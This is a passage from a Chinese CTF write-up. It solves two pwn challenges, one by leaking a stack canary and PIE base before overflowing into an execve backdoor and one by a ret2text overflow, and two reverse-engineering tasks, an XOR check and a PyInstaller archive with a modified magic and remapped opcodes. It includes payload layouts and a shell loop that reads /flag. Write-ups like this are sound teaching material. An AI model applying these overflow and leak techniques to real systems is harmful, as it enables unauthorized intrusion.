| `0x12f7` | `get_choice`：裸 `read(0,buf,2)` + `atoi`（不走 scanf/stdio） |

#### 后门函数

`0x12ba` 处是一个完整的 `execve("/bin/sh", NULL, NULL)` 后门。只要把返回地址覆盖成 `PIE基址 + 0x12ba` 就能 getshell, 无需 ROP / 无需泄漏 libc。



#### 漏洞函数 add



栈帧布局：`buf` 在 `rbp-0x110`，canary 在 `rbp-0x8`，返回地址在 `rbp+0x8`。

- `buf` → canary 距离 = `0x108`（264 字节）
- `buf` → 返回地址距离 = `0x118`（280 字节）

两段关键循环：

1. 写循环（`0x14d1`–`0x150a`）：`for(i=0;i<size;i++) scanf("%hhd",&buf[i])`。
   `size` 由用户输入且无上界检查 => 可写穿 canary、saved rbp、返回地址 => 栈溢出。
2. 求和循环（`0x1522`–`0x155b`）：`result = (Σ buf[i]) & 0xff`，随后 `printf("result is %d")`。求和读取的是 `buf` 的原始字节——即使写循环在 canary 处停下，求和仍会把 canary / 返回地址的字节累加进来。

#### 泄露 Canary

要泄漏 canary，需要：写循环写到 canary 前就停止（不破坏 canary，避免 `__stack_chk_fail`）。

但求和循环仍把 canary 字节算进 `result`。做法是让 scanf 在 canary 处匹配失败：

- 先写满 `0x108` 个字节（到达 canary 前）。
- 再发送一个会让 `%hhd` 匹配失败的输入，使 scanf 停止写入。
- 求和循环仍读取 canary 的原始字节 => `result` 包含 canary 信息。
- 通过逐字节差分还原 canary。

用一个最小复现 C ：

> `scanf` 读到符号 `+`/`-` 后跟非数字时，匹配失败，但会消耗掉符号、只把空白 `\n` `ungetc` 回去。空白会被下一次 scanf 自动跳过，避免了 stdio 与裸 read 失步

因此用 `+\n` 作为停写符，可以在单连接内反复泄漏。另一个关键细节：

`size = 265 + k` 时，写循环会越过 canary 的前 `k+1` 字节，必须发送 `k+1` 个 `+\n` 才能逐字节挡住写循环；否则后续迭代把下一轮输入写进 canary 导致崩溃。

---

对 `k = 0..7`：`size = 0x109 + k`，发送 264 个 0 + (k+1) 个 `+\n`。

每次 `result` 差分得到 canary 的第 k 字节。校验 `canary[0] == 0`（canary 低字节恒为 0）。

```
[+] canary = 00a72142579cd10c
```

#### 泄漏返回地址 => PIE 基址

对 `j = 0..7`：`size = 0x119 + j`，发送 264 个 `0` + `canary(8B)` + 8 字节 `rbp(0)` + (j+1) 个 `+\n`。

差分得到返回地址 8 字节。由 `retaddr = PIE基址 + 0x19a3` 反推：

```
pie_base = retaddr - 0x19a3      （校验页对齐 base & 0xfff == 0）
[+] retaddr=0x558deaefb9a3 pie_base=0x558deaefa000
```

#### 从溢出到后门

`size = 288`，payload：

> 264 个 `0` + `canary(8B)` + 8 字节 `rbp(0)` + `(pie_base + 0x12ba)`

写回正确的 canary（绕过 `__stack_chk_fail`），返回地址指向后门 `execve("/bin/sh")`。

#### 读 Flag

后门 `execve` 的 `envp = 0` ，即 PATH 为空，且目标为精简 chroot（`/bin` 只有 `ls/sh/timeout`，没有 `cat`）。

因此用 **shell 内建**读文件：

```sh
while IFS= read -r l || [ -n "$l" ]; do echo "$l"; done < /flag
```

```plain
FLAG>>> flag{3a74cb6de60e417a9d5ffcdbcb087700}
```

上述脚本见[fakefake_solve.py](./assets/fakefake_solve.py).

### 02. ezstack01

#### 初步分析

一样先检查保护：



无 canary + 无 PIE：返回地址可被直接覆盖，且后门地址固定。因此无需任何泄漏，直接栈溢出 ret2text 即可。NX 只是禁止栈上执行 shellcode。

#### 逆向分析



`main`（`0x40129d`）是一个无限循环：`init()`（设缓冲、`alarm(60)`）=> `vuln()`。

关键在漏洞函数 `vuln`（`0x40123e`）与一个独立后门函数（`0x4011d6`）。




**漏洞函数 `vuln`👆**




**后门函数👆**

因此，只需把返回地址覆盖成后门地址即可 getshell。

#### ret2text

无 canary、无 PIE，溢出 40 字节后把返回地址改成后门地址即可。payload：

```
b"A"*40 + p64(后门地址)
```

However, 直接 ret 到 `0x4011d6` / `0x4011da` 会因 `push rbp` 改变栈对齐，导致 `system` 内部 `movaps` 要求 16 字节对齐而**崩溃**。

改跳 `0x4011de`（跳过 `endbr64` 与 `push rbp`，直接 `lea rdi; call system`），栈对齐正确。

本地对三个入口 `0x4011d6 / 0x4011da / 0x4011de` 逐一实测，仅 `0x4011de` 出 shell。

#### 读 Flag

```bash
$ cat /flag

flag{dmOsRZWeQJbdxj0b7sEuh6DHW573ol6ng2e9SGAC}
```

ok。

解题脚本见 [ezstack01_solve.py](./assets/ezstack01_solve.py).

用法: 

```bash
python3 exploit.py [IP] [PORT]
```

## Reverse 方向

### 02. ezre

#### 初步分析

检查附件 EXE 类型：



PE32、Intel i386、Windows 控制台程序。

检查 strings：



#### 逆向主函数



主函数位于虚拟地址 `0x401100`，读取输入的调用位于 `0x40115A`，成功分支打印调用位于 `0x4011B8`。

进入函数后，程序把 `0x4020F8` 开始的常量复制到栈上。



#### 还原校验循环



这里有三个主要局部量：

| 栈位置 | 含义 |
| --- | --- |
| `[ebp-0x40]` | 循环下标 `i` |
| `[ebp-0x3C+i]` | 输入缓冲区的第 `i` 个字节 |
| `[ebp-0x1C+i]` | 目标数组的第 `i` 个字节 |

`0x14` 等于十进制 20，循环下标从 0 到 19。`xor eax, [ebp-0x40]` 的含义是把输入字符与**当前下标**异或，而不是与固定密钥异或。接着取 `al` 写回输入缓冲区，再与目标数组比较。

等价校验逻辑：

```c
scanf("%20s", input);
for (int i = 0; i < 20; i++) {
    input[i] ^= i;
    if (input[i] != target[i]) {
        printf("Error");
        return 0;
    }
}
printf("You got it!");
return 0;
```

#### 逆运算还原输入

每个位置满足：

```plain
input[i] XOR i = target[i]
```

利用异或的自反性，可直接逐字节计算。

例如前五位：

```plain
0x66 XOR 0x00 = 0x66 = f
0x6D XOR 0x01 = 0x6C = l
0x63 XOR 0x02 = 0x61 = a
0x64 XOR 0x03 = 0x67 = g
0x7F XOR 0x04 = 0x7B = {
```

循环利用，得到 `flag{1234567890abcd}`。

### 03. oooops

#### 初步分析

解压附件后，检查文件：



现知外层是 x86-64 Linux ELF，采用 PIE，符号表被裁剪。

注意到 ELF 中存在名为 `pydata` 的节，文件偏移为 `0x9284`，大小为 `0xA03107`：



考虑 PyInstaller 打包程序？

#### 怎么和想象的不一样？

标准 CArchive cookie 的 8 字节魔数为：

```plain
4d 45 49 0c 0b 0a 0b 0e    MEI.....
```

直接搜索，搜不到。

但注意到：

```plain
73 77 49 0c 0b 0a 0b 0e    swI.....
```

三字节前缀由 `MEI` 变成了 `swI`，实际修改了第 1、2 字节；后 5 字节保持不变。

故可能存在 PyInstaller 归档。可搜索后 5 字节，再向前回退 3 字节定位 cookie 起点。

#### Cookie 与归档起点

本题使用的 cookie 结构可以按大端解析：

```python
struct.unpack('!8sIIII64s', cookie_bytes)
```

各字段依次为：8 字节魔数、归档总长度、TOC 相对偏移、TOC 长度、Python 版本字段、64 字节 Python 动态库名称。结构总长度为 88 字节。

| 字段 | 本题值 |
| --- | --- |
| cookie 文件偏移 | `0xA0C333` |
| cookie 总长度 | `88 = 0x58` |
| 归档总长度 | `0xA03107` |
| TOC 相对偏移 | `0xA0259F` |
| TOC 长度 | `0xB10` |
| Python 版本字段 | `35`，即 Python 3.5 |
| Python 动态库 | `libpython3.5m.so.1.0` |

归档起点为：

```plain
archive_start = cookie_offset + 88 - package_length
              = 0xA0C333 + 0x58 - 0xA03107
              = 0x9284
```

这个结果与 ELF 的 `pydata` 节偏移一致。

#### 按 TOC 提取脚本


每个 TOC 条目的固定头可按下面的结构读取：

```python
struct.unpack_from('!IIIIBc', blob, position)
```

固定头共 18 字节，含条目总长度、数据相对偏移、存储长度、原始长度、压缩标记和类型；余下部分是零结尾名称。数据的绝对文件偏移为 `archive_start + entry_offset`。若压缩标记为真，使用 zlib 解压，并验证解压后长度。

提取出的关键脚本项为：

```plain
s ooops 1650
```

`s` 表示脚本类型，1650 是解压后的字节数。该文件是 marshal 序列化数据，并非带常规 `.pyc` 文件头的完整 pyc。

提取脚本见 [r03_extract.py](./assets/r03_extract.py) 。

#### 怎么和想象的还是不一样？

使用 [r03_inspect_code.py](./assets/r03_inspect_code.py) 的自定义 marshal 读取器，把代码对象解析成普通字典。它读取 Python 3.5 的代码对象字段：

```plain
argcount, kwonlyargcount, nlocals, stacksize, flags
code, consts, names, varnames, freevars, cellvars
filename, name, firstlineno, lnotab
```

读取器还处理整数、字节串、短 ASCII 字符串、元组和引用槽。marshal 类型字节的最高位用于引用标记，`r` 类型引用此前对象，因此不能只按字节位置盲目提取所有字符串。

解析后可以看到 `<module>`、`anti_debug`、`decrypt_flag`、两个 `<genexpr>` 和 `main` 等代码对象。名称和常量仍然具有语义，提供了恢复操作码的重要依据。

#### 用模块导入结构确定第一批操作码


模块的名称表为：

```plain
('sys', 'struct', 'zlib', 'ctypes',
 'anti_debug', 'decrypt_flag', 'main', '__name__')
```

开头四条指令的字节形式是：

```plain
0:  77 00 00
3:  77 01 00
6:  90 00 00
9:  5b 00 00
```

结合常量 0、None 和名称 `sys`，可将其解释为典型模块导入结构：

```plain
LOAD_CONST 0
LOAD_CONST None
IMPORT_NAME sys
STORE_NAME sys
```

类似的结构随后对 `struct`、`zlib` 和 `ctypes` 重复出现。因此可以确定：`0x77` 是 `LOAD_CONST`，`0x90` 是 `IMPORT_NAME`，`0x5B` 是 `STORE_NAME`。再结合函数构造、属性访问、循环和栈变化，逐步恢复其余映射。

#### 与解密有关的关键映射



| 本题值 | 实际指令 | 识别依据 |
| --- | --- | --- |
| `0x77` | `LOAD_CONST` | 导入层级、None、整数、字节常量 |
| `0x78` | `LOAD_GLOBAL` | 调用 `struct`、`bytes`、`len` 等名称 |
| `0x64` / `0x79` | `LOAD_FAST` / `STORE_FAST` | 局部变量读写 |
| `0x6C` / `0x88` | `LOAD_DEREF` / `STORE_DEREF` | `data`、`key` 的闭包单元 |
| `0x65` | `LOAD_CLOSURE` | 把闭包单元交给生成器函数 |
| `0x7C` | `LOAD_ATTR` | `unpack`、`decompress`、`encode` 属性 |
| `0x83` | `CALL_FUNCTION` | 参数入栈后调用函数 |
| `0x67` | `BUILD_SLICE` | `data[:4]` 与后续数据切片 |
| `0x13` | `BINARY_SUBSCR` | 字节、列表、元组索引 |
| `0x41` / `0x19` | `BINARY_MULTIPLY` / `BINARY_ADD` | 下标计算中的乘、加 |
